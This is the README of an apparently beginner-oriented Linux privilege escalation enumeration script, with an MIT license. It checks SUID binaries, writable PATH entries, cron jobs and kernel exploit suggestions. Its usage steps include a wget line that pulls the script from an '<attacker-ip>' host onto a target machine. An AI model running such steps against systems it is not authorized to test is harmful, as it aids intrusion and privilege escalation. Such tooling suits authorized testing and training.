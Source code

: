 # Privilege Escalation Helper Tool

This is a beginner-friendly privilege escalation enumeration tool designed for Linux systems. It automatically checks for:
- SUID binaries and matches them against GTFOBins
- Writable paths in $PATH
- Cron jobs
- Kernel version and suggests known exploits using linux-exploit-suggester

## Usage

1. Upload the script to the target machine:
```
wget http://<attacker-ip>/privesc_helper.sh
chmod +x privesc_helper.sh
```
2. (Optional) Place `linux-exploit-suggester.sh` in the same folder.

3. Run the tool:
```
./privesc_helper.sh
```

4. Check the results in `privesc_report.txt`.

<p align="center">
  <img src="demo.jpg" alt="Auto-privsec Demo Screenshot" width="970px">
</p>


## Notes

- The script requires `curl`, `bash`, and `tee`.
- It does not exploit automatically — it assists with clear enumeration.

## License

MIT License

Copyright (c) 2025 ZAR

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the “Software”), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED “AS IS”, WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

